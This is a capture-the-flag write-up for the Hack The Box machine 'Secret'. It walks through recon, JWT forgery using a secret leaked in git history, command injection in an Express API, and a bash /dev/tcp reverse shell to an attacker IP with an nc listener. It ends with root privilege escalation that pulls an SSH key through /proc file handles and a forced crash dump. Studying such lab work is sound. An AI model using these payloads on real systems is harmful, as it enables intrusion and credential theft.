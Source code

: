 ```yaml
---
title: htb secret
author: Yuchao
date: 2021-10-30 00:00:00 +0000
categories: [sec]
tags: [htb, 0xdf, ippsec, express, nodejs, python, pyjwt, dotenv, jwt, nmap, feroxbuster, curl, git, privesc, c, coredump]
math: true
mermaid: true
---
```


## nmap
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.120
nmap -p 22,80,3000 -sCV -oA scans/nmap-tcpscripts 10.10.11.120
```

## See 80, 3000 port run the same thing:
1. maybe 80 is a reverse proxy of 3000.
2. maybe one developer version, one production version.
3. some misconfiguration

## Directory discovery
```bash
feroxbuster -u http://10.10.11.120
```

## use API by document
```bash
# /api/user/register
curl -d '{"name":"0xdf0xdf","email":"dfdfdfdf@secret.com","password":"password"}' -X POST http://10.10.11.120/api/user/register -H 'Content-Type: Application/json'
# /api/user/login
curl -d '{"email":"dfdfdfdf@secret.com","password":"password"}' -X POST http://10.10.11.120/api/user/login -H 'Content-Type: Application/json'
```
- -d data
- -X method
- -H header
- It supports these protocols: DICT, FILE, FTP, FTPS, GOPHER, GOPHERS, HTTP, HTTPS, IMAP, IMAPS, LDAP,  LDAPS,  MQTT,  POP3,  POP3S, RTMP,  RTMPS,  RTSP, SCP, SFTP, SMB, SMBS, SMTP, SMTPS, TELNET or TFTP.
- after the request, got a JWT.

## nginx
- port 80 is same with port 3000. 3000 does not have NGINX.
- suspect NGINX is just there to proxy for Express.

## analysis the source
- nodejs express application

#### find Token generation
``` javascript
// Dotenv loads environment variables from a .env file into process.env
const dotenv = require('dotenv')
dotenv.config();
```
{: .nolineno file="index.js" }

``` javascript
// create jwt
const jwt = require("jsonwebtoken");
const token = jwt.sign({ _id: user.id, name: user.name , email: user.email}, process.env.TOKEN_SECRET )
res.header('auth-token', token).send(token);
const verified = jwt.verify(token, process.env.TOKEN_SECRET);
```
{: .nolineno file="/routes/auth.js" }

#### find git information
```bash
git log --oneline
git show 67d8da7
```
get the TOKEN_SECRET from git old version

#### find some api need "admin"`s token
- like ``` /api/priv ``` and ``` /api/logs ```

## Forge JWT
#### decode
``` pip3 install pyjwt ```
``` python
import jwt
token='eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoiMHhkZjB4ZGYiLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.rMfMsdYkfSbl4hr1RJFwY3qWfrA3LSWVlzUON_9EW_A'
secret='gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE'
# decode
jwt.decode(token, secret, algorithms=["HS256"])
# result-> {'_id': '617825332c2bab0445c48462', 'name': '0xdf0xdf', 'email': 'dfdfdfdf@secret.com', 'iat': 1635263828}
```
#### Create Token
```python
j = jwt.decode(token, secret, algorithms=["HS256"])
j['name'] = 'theadmin'
jwt.encode(j, secret, algorithm="HS256")
# result-> eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.cRgg1KkYXYSwz1xpknTFWTHnx8D-7UMewMubwAGsvQ8
```

#### try to use
```bash
curl -s 'http://10.10.11.120/api/priv' -H "auth-token: {token}" | jq .
```

## Command Injection
```javascript
if (name == 'theadmin'){
    const getLogs = `git log --oneline ${file}`;
    exec(getLogs, (err , output) =>{
```
try to manituplate to -> ``` git log --oneline; [any command] ```
``` curl -s 'http://10.10.11.120/api/logs?file=;ping+-c+1+10.10.14.6' -H "auth-token: {token}" | jq -r . ```
attacker machine -> ``` sudo tcpdump -ni tun0 icmp ```

Force to use G (Get) method.
- -d,  --data,  --data-binary  or --data-urlencode to be used in an HTTP GET request instead of the POST request.
```bash
curl -s -G 'http://10.10.11.120/api/logs' \
--data-urlencode 'file=/dev/null;id' \
-H "auth-token: {token}" \
| jq -r .
```

#### reverse shell
```bash
curl -s -G 'http://10.10.11.120/api/logs' \
--data-urlencode "file=>/dev/null;bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'" \
-H "auth-token: {token}" \
| jq -r .
```

attacker`s machine: ```  nc -lnvp 443 ```

## privesc

#### get information from coredump.

an suid program
```c
filecount(path, summary);
// source code of "count" program
// drop privs to limit file write
setuid(getuid());
// Enable coredump generation
prctl(PR_SET_DUMPABLE, 1);
printf("Save results a file? [y/N]: ");
res = getchar();
```
{file="code.c" }

- ```  ps auxww | grep count ``` find pid of the program
- background the program at getchar()
- find file handler in ``` /proc/[pid]/fd ```
- find "/root/.viminfo" as input file path can be readable
- as we can not access "/root", we can not ``` cat /root/.viminfo ```
- but we can read .viminfo from file handler
- We can get the SSH key from it.

#### another way, from Crash Dump

- Because Enabled coredump generation
- When a program crashes, the system stores the crash dump files in ``` /var/crash ```
- input ``` /root/.ssh/id_rsa ``` as path input
- ```  kill -l ``` list kill signals
- ```  kill -SIGSEGV {pid} ``` send a segmentation fault
- ``` /var/crash$ apport-unpack _opt_count.1000.crash /tmp/0xdf ``` decompress the dump into a given directory
- ``` strings -n 30 CoreDump ```
- then get the SSH key from it.
